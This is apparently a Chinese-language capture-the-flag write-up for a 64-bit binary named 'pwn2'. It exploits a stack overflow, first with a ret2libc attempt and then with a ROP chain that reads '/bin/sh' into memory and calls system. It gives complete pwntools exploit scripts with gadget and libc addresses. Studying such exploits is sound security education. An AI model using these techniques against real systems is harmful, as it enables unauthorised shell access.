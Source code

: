 一樣有 magic 函式，裡面變成`system('/bin/ls')`
但是我們想要的是 /bin/sh

binary中沒有 /bin/sh 可以去 .so 裡面找

![](https://i.imgur.com/1VAqHx9.png)

透過 ldd 發現是用 libc.so.6 (題目有給)

題目檔案是 64-bit
> pwn2: ELF 64-bit LSB executable, x86-64

可以利用 ret2libc 手法 搜集 pop_rdi_ret, binsh_addr, system_addr

![](https://i.imgur.com/bN75qUA.png)

> pop_rdi_ret 0x00000000004006d3

![](https://i.imgur.com/sKcGyCc.png)

> system_libc_addr 0x7ffff7a52390

> binsh_libc_addr 0x7ffff7b99d57


```python
from pwn import *
#p = remote('10.140.0.8', 11112)
p = process('./pwn2')
offset = 'a' * 16
target_addr = 0x04005f7
prr = p64(0x00000000004006d3)
binsh = p64(0x7ffff7b99d57)
system = p64(0x7ffff7a52390)

payload = offset + prr + binsh + system
p.sendline(payload)
p.interactive()
```


比賽時在local測試一直不行，找不出原因(ubuntu18.04)。
後來用16.04才發現local可以，但是也無法連到遠端測試了

---

ret2libc 行不通，因為不知道遠 libc 位置 ， 直接串 ROP即可

```python
from pwn import *

r = process("./pwn2")
elf = ELF('./pwn2')
context(arch='amd64',log_level='debug')

offset = 'a'*16
pop_rsi_r15_ret = 0x4006d1
pop_rdi_ret = 0x4006d3

buf = 0x601010
print 'read@plt', hex(elf.plt['read'])
print 'system@plt', hex(elf.plt['system'])
payload = flat([
                offset,
                pop_rsi_r15_ret,
                buf,
                'a' * 8,
                elf.plt['read'],
                pop_rdi_ret,
                buf,
                elf.plt['system'],
                ])
r.sendline(payload)
r.sendline("/bin/sh")
r.interactive()

```
